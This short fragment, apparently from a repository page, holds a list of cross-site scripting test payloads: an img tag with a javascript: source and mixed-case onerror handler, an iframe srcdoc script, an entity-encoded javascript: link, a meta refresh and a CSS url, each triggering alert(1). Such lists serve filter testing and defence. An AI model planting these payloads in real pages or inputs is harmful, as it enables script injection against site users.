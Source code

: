 <img src="javascript:alert(1)" title="JavaScript" alt="JavaScript" width="40" height="40" oNerrOr=alert`1`/>
<iframe srcdoc="<script>alert(1)</script>">
<a href="javas&#99;ript:alert(1)">X</a>
<meta http-equiv="refresh" content="0;url=javascript:alert(1)">
<style>*{background:url("javascript:alert(1)")}</style>
